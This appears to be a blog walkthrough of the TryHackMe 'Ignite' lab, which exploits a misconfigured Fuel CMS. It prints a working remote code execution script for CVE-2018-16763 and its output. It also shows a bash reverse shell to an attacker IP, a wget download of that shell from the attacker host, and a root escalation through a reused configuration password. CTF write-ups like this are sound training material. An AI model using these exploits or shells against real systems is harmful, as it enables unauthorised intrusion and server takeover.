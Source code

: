 ```yaml
---
title: 'Ignite - TryHackMe Walkthrough'
date: 2020-07-12 00:00:00
featured_image: '/images/posts/ignite-thm.png'
excerpt: A new start-up has a few issues with their web server, who mis-configured their CMS. 
---
```

![](/images/posts/ignite-thm.png)

## Goal
To exploit a mis-configured webserver running CMS and then gain the root access.

### Recon
When visited the default webpage that is running on the host, shows the Fuel CMS (Ver 1.4) was installed but not configured.
The page has next steps to do by the system administrator and at the end of the page it has the default credentials to login, admin:admin.

Performed a scan on the host with `nmap` :
```bash
$ nmap -p- -A 10.10.142.89
Nmap scan report for 10.10.142.89
Host is up (0.20s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

The Fuel CMS 1.4 has a known vulnerability [CVE-2018-16763](https://www.exploit-db.com/exploits/47138).

### Getting a reverse shell
Using exploit from [exploit database](https://www.exploit-db.com/raw/47138), tweaked a bit and created a file remoteattack.py.  
The exploit will prompt for a command to execute on the victim.

```python
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

import requests
import urllib

url = "http://10.10.142.89"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
    xxxx = input('cmd:')
    url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
    r = requests.get(url)

    html = "<!DOCTYPE html>"
    htmlcharset = r.text.find(html)

    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)

    print(r.text[0:dup])
```
Test the exploit by running a sample remote command, like id, pwd etc.

```bash
$ python3 remoteattack.py
cmd:pwd
system/var/www/html
```
From above we can see the exploit is working, so we extend this to get a reverse shell to do more.

- Created a bash script file with revere shell code, revshell.sh

```bash
$cat revshell.sh
bash -i >& /dev/tcp/10.2.18.4/4444 0>&1
```
- Open a simple http server using `python -m http.server` from the same location, so the victim can download the file.
- Open a `nc` listener on port 4444; `nc -nlvp 4444`
- Run the exploit again, but this time the command is to download the reverse shell code.

```bash
$ python3 remoteattack.py
cmd:wget http://10.2.18.4:8000/revshell.sh
```
- Pass the cmd to execute the revshell.sh

```bash
$ python3 remoteattack.py
cmd:bash revshell.sh
```
- This will establish a reverse shell connection on `nc` listener and with the user *www-data*.
- The user flag can be accessible from `/home/www-data/flag.txt` which has a value: `6470e394cb--------1682cc8585059b`

### Escalating the privileges to root
- The user www-data is a normal user and we need to escalate our privileges to root.
- Using the [linPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh), lets see if there are any mis-configurations on the server.
- Download the linPEAS.sh utility to /tmp of the victim and execute it.
- Once the report is generated, go through it and under the section, "Finding pwd or passw variables", we can see there is configuration file, `fuel/application/config/database.php` with password *mememe*. The same file we can saw on the webpage during Recon also with the instructions to install the database for Fuel CMS.
- Bu going through the configuration file, we can see the above password is for the root id.
- Switch to root user using the above password and access the root flag, /root/root.txt; which has the value *b9bbcb33--------759c4e844862482d*.

Image Credits: [TryHackMe and the room creator](https://tryhackme.com/room/ignite).
